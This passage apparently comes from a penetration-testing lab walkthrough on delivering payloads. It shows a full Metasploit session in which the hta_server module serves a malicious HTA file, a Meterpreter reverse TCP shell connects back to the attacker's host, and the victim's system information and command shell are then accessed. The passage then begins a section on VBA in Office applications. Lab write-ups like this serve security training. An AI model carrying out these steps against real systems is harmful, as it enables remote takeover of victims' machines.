 ```shell-session
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

```shell-session
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>
```

## Visual Basic for Application - VBA

***

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.&#x20;
